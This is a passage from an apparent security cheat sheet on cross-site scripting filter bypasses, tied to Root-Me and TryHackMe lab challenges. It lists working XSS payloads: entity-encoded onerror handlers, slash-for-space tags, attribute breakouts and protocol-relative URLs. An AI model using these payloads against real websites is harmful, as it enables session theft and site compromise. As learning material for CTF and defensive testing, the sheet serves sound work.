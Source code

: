 If we are within an `HTML attribute`, we can use unicode. Refer to [JavaScript Word Filtering Bypass](#javascript--word-filtering-bypass) for more payloads.

```html!
<img src="NOT_FOUND" onerror=&quot;alert&lpar;5&rpar;&quot;>
<img src="NOT_FOUND" onerror=&#00000000000058;>
<img src="NOT_FOUND" onerror=&#X61;&#X6C;&#X65;&#X72;&#X74;('XSS')>
```

<details class="details-n"><summary>Payload Encoding Using JavaScript</summary></details>

</div><div>

#### HTML — Character Filtering

[![xss_stored_filter_bypass](../../../../_badges/rootme/web_client/xss_stored_filter_bypass.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-filter-bypass)

* You can use slashes instead of spaces:

```xml!
<button/autofocus/onfocus=[...]>
<image/src/onerror=console.log(8)>
<img/src/onerror=console.log(8)>
```

* If `<` and `>` are filtered, use DOM attributes such as `onerror`, etc.

```diff!
-"><script>alert(1)</script>
+" onerror=alert(1) x="
```

* If `http`/`https` is filtered, simply remove it

```diff!
-[...] href="https://example.com" [...]
+[...] href="//example.com" [...]
```
</div></div>

<hr class="sep-both">

## JavaScript

<div class="row row-cols-lg-2"><div>

#### JavaScript — Word Filtering Bypass

[![xssgi](../../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)
[![xss](../../../../_badges/thmp/xss.svg)](https://tryhackme.com/room/xss)
[![csp_bypass_nonce](../../../../_badges/rootme/web_client/csp_bypass_nonce.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)
[![xss_stored_filter_bypass](../../../../_badges/rootme/web_client/xss_stored_filter_bypass.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-filter-bypass)
[![xss_dom_based](../../../../_badges/rootme/web_client/xss_dom_based.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based)
